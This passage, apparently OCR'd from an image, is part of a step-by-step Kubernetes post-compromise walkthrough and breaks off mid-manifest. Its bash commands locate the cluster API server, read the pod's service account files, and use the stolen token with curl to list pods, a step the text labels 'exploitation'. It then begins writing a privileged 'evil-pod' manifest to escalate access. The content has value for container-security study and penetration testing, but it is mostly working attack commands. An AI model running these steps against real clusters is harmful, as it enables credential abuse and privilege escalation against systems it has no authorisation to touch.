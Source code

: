 ```bash
KUBE_API_URL=$(kubectl config view --minify -o jsonpath='{.clusters[0].cluster.server}')
echo $KUBE_API_URL
```

*   **Explanation:** This command uses `kubectl` within the pod (assuming it's available) to extract the Kubernetes API server URL from the in-cluster configuration. It filters down the output to the server endpoint.
*   **Why:** To determine where to direct our API calls to.
*   **Expected Output:** The URL of the Kubernetes API server, such as `https://10.96.0.1:443`.
* **How it contributes:** Provides the target for authentication and exploitation.

**Alternative Approach if kubectl is not available**

```bash
KUBE_API_URL=https://kubernetes.default.svc
echo $KUBE_API_URL
```

This assumes the common internal DNS name of the kubernetes API.  If this resolves, proceed with this endpoint.

**7. Authenticate and Query the API Server (Exploitation):**

This step uses the retrieved service account token to authenticate and query the API server, demonstrating exploitation.

```bash
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl -s -H "Authorization: Bearer $TOKEN" --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt $KUBE_API_URL/api/v1/namespaces/$NAMESPACE/pods
```

*   **Explanation:**
    *   `NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)`:  Retrieves the namespace the pod is running in.
    *   `curl -s -H "Authorization: Bearer $TOKEN" --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt $KUBE_API_URL/api/v1/namespaces/$NAMESPACE/pods`: Sends an HTTP GET request to the API server to list pods within the pod's namespace, authenticating with the retrieved service account token.  The `--cacert` option specifies the CA certificate for verifying the server's certificate.
*   **Why:** This confirms that the service account token can be used to authenticate and access resources in the cluster. This step attempts to list all the pods within the same namespace.
*   **Expected Output:** A JSON response containing information about the pods in the namespace.  If the token is invalid or the service account lacks sufficient permissions, an error message will be returned.
*   **How it contributes:** Demonstrates successful authentication and potential for further exploitation.

**8. Expand Exploitation (Example: Creating a Pod with elevated privileges):**

If the service account has sufficient permissions, an attacker could create a pod with elevated privileges.  This is just an example.

```bash
cat <<EOF > exploit.json
{
  "apiVersion": "v1",
  "kind": "Pod",
  "metadata": {
    "name": "evil-pod"
  },
  "spec": {
    "containers": [
      {
        "name": "evil-container",
        "image": "alpine/git",
        "securityContext": {
          "privileged": true
        },
        "command": ["/bin/sh", "-c", "while true; do sleep 3600; done"]
```